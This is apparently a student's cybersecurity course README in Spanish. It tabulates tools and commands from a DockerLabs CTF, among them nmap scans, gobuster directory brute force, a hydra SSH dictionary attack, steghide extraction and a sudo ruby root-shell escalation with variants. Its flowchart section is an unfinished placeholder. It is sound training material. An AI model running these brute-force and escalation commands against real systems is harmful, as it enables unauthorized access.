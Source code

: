 # Taller de Electiva - Maestría en Ciberseguridad
:imp::rotating_light::skull:MY. GÓMEZ ORTEGA MARIO FRANCISCO:skull::rotating_light::imp:
![imagen 1 hacker taller MFGO](https://media1.tenor.com/m/z5yrWHMWfF8AAAAd/hacker-hack.gif)

Este taller tiene como objetivo desarrollar los puntos del taller de DOCKERLABS:

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

---

## 1. Herramientas empleadas en el taller de DockerLabs:

| HERRAMIENTA | DEFINICION                                                                                   | FUNCIONALIDAD                                         | EJEMPLOS DE USO                                                                                    |   |
|-------------|----------------------------------------------------------------------------------------------|-------------------------------------------------------|----------------------------------------------------------------------------------------------------|---|
| SCP         | Secure Copy Protocol: protocolo para copiar archivos entre máquinas remotas de forma segura. | Transferencia de archivos entre equipos mediante SSH. | Copiar archivos desde host a Kali Linux. Ej: `scp -r amor kali@192.168.1.12:/home/kali/Documents/` |   |
| Docker      | Plataforma de contenedores para ejecutar aplicaciones aisladas.                              | Despliegue de entornos vulnerables para prácticas.    | Ejecutar DVWA, desplegar laboratorio 'amor.tar'                                                    |   |
| Unzip       | Herramienta para descomprimir archivos .zip.                                                 | Extraer contenido de laboratorios comprimidos.        | `unzip nombre_maquina.zip`                                                                         |   |
| Netdiscover | Escáner ARP para descubrir dispositivos activos en la red.                                   | Detectar IP de contenedores en red Docker.            | `sudo netdiscover -i docker0 -r 172.17.0.0/24`                                                     |   |
| Nmap        | Network Mapper: escáner de red y puertos.                                                    | Identificar servicios y puertos abiertos.             | `nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`                                                      |   |
| Gobuster    | Herramienta de fuerza bruta para encontrar rutas/directorios en servidores web.              | Fuzzing de directorios ocultos.                       | `gobuster dir -u http://IP/ -w wordlist.txt`                                                       |   |
| Hydra       | Herramienta para ataques de fuerza bruta contra servicios como SSH.                          | Crackear contraseñas por diccionario.                 | `hydra -l usuario -P diccionario ssh://IP`                                                         |   |
| SSH         | Secure Shell: protocolo seguro para conexión remota.                                         | Acceso remoto a sistemas Linux.                       | `ssh carlota@172.17.0.2`                                                                           |   |
| Steghide    | Herramienta para ocultar y extraer información de imágenes.                                  | Realizar esteganografía.                              | `steghide --extract -sf imagen.jpg`                                                                |   |
| Base64      | Sistema de codificación para datos binarios en texto ASCII.                                  | Decodificación de texto escondido.                    | `echo 'base64text' \| base64 -d`                                                                   |   |

---

## 2. Comandos empleados en el Taller de DockerLabs.

**Docker** es una plataforma de virtualización ligera basada en contenedores. Un contenedor es una unidad ejecutable que incluye todo lo necesario para ejecutar una aplicación: código, librerías, entorno y dependencias.

### ¿Por qué instalar Docker en Kali?

| COMANDO                                                                                            | EXPLICACIÓN DESGLOCE                                                                              | ALTERNATIVA 1                       | ALTERNATIVA 2                           | ALTERNATIVA 3                                                 |
|----------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------|-------------------------------------|-----------------------------------------|---------------------------------------------------------------|
| scp -r amor kali@192.168.1.12:/home/kali/Documents/                                                | `scp`: copia segura, `-r`: recursivo, `amor`: carpeta origen, `kali@...`: destino.                | scp archivo usuario@IP:/ruta/       | rsync -avz archivo usuario@IP:/ruta/    | sftp usuario@IP                                               |
| sudo apt install docker.io                                                                         | `sudo`: privilegios, `apt install`: instala paquete, `docker.io`: paquete de Docker.              | apt-get install docker.io           | snap install docker                     | curl \| bash (instalador oficial)                             |
| ./auto_deploy.sh amor.tar                                                                          | `./`: ejecutar script local, `auto_deploy.sh`: script de despliegue, `amor.tar`: archivo del lab. | bash auto_deploy.sh                 | sh auto_deploy.sh                       | chmod +x auto_deploy.sh && ./auto_deploy.sh                   |
| ip add                                                                                             | Muestra interfaces y direcciones IP del sistema.                                                  | ip a                                | ifconfig                                | hostname -I                                                   |
| sudo netdiscover -i docker0 -r 172.17.0.0/24                                                       | `-i`: interfaz, `docker0`: red virtual, `-r`: rango objetivo.                                     | arp-scan -l                         | nmap -sn 172.17.0.0/24                  | ip neigh                                                      |
| sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2                                                   | `--min-rate`: velocidad, `-p-`: todos los puertos, `-sS`: SYN scan, `-sV`: detectar versión.      | nmap -A IP                          | nmap -T4 -p 1-65535 IP                  | masscan -p1-65535 IP                                          |
| gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | `dir`: modo directorios, `-u`: URL, `-w`: diccionario de palabras.                                | ffuf -u URL/FUZZ -w wordlist        | dirb URL                                | dirsearch -u URL                                              |
| hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10                        | `-l`: login, `-P`: diccionario, `ssh://`:protocolo, `-t`: threads concurrentes.                   | medusa -u user -P pass -h IP -M ssh | ncrack -p 22 --user user -P wordlist IP | patator ssh_login host=IP user=USER password=FILE0 0=wordlist |
| scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor | Copia remota con `scp` desde usuario `carlota` al directorio destino local.                       | rsync -avz user@host:/path /destino | sftp user@host                          | wget scp://host/archivo                                       |
| steghide --extract -sf imagen.jpg                                                                  | Extrae información escondida de `imagen.jpg` usando Steghide.                                     | zsteg imagen.jpg                    | binwalk -e imagen.jpg                   | exiftool imagen.jpg                                           |
| echo "ZXNsYWNhc2FkZXBpbnlwb24=" \| base64 -d; echo                                                 | Decodifica texto base64, `-d`: decode.                                                            | base64 --decode                     | openssl enc -base64 -d                  | python3 -m base64                                             |
| sudo /usr/bin/ruby -e 'exec "/bin/bash"'                                                           | Ejecuta un shell `/bin/bash` con permisos elevados desde ruby.                                    | sudo ruby -e 'exec "/bin/bash"'     | ruby -rsystem -e 'system("/bin/bash")'  | echo 'bash' \| ruby                                           |
| file imagen.jpg                                                                                    | Identifica el tipo y formato de archivo, útil para análisis forense.                              | exiftool imagen.jpg                 | stat imagen.jpg                         | identify imagen.jpg                                           |

---


## 3. Diagrama de flujo del Taller DockerLabs

asdfasdf

---


